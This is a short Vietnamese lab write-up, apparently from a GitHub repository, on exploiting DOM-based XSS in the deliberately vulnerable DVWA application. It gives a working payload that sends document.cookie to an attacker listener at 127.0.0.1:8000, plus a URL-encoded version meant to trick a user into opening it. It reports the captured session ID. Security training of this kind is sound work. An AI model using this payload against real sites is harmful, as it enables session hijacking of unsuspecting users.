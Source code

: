 # XSS DOM
## Client / Server side
## Pwned Time
![image](https://github.com/user-attachments/assets/2b6ebd0c-6c76-4903-9305-b13b16b73757)
*Mình sẽ khai thác XSS trực tiếp trên client-side khác với XSS reflected khai thác qua server-side*

![image](https://github.com/user-attachments/assets/b5823528-483f-4285-a890-82c4ebb2de35)
*Thử nhập 1 lệnh alert*
--> Kết quả:
![image](https://github.com/user-attachments/assets/752634e3-7aba-43c7-945d-07c6b05c5136)

Pwn time:
1. Tạo 1 local server qua python
![image](https://github.com/user-attachments/assets/6a79af35-58fe-4de8-b9d7-77fb0ad444a4)

2. Tạo payload độc, lừa user nhập vào
Payload gốc:
```
127.0.0.1/dvwa/vulnerabilities/xss_d/?default=English<script>window.location='http://127.0.0.1:8000/?cookie' + document.cookie</script>
```
![image](https://github.com/user-attachments/assets/ee01b5a4-71a4-48cf-b0db-9b04016eaefc)
*Nó sẽ ra 1 trang ntn*

Encode payload:
```
127.0.0.1%2Fdvwa%2Fvulnerabilities%2Fxss_d%2F%3Fdefault%3DEnglish%3Cscript%3Ewindow.location%3D%27http%3A%2F%2F127.0.0.1%3A8000%2F%3Fcookie%27%20%2B%20document.cookie%3C%2Fscript%3E
```
3. Kết quả
Session id của người dùng hiện trong cửa sổ server của attacker
 ![image](https://github.com/user-attachments/assets/71026905-c57d-471c-81db-891455ac4e22)




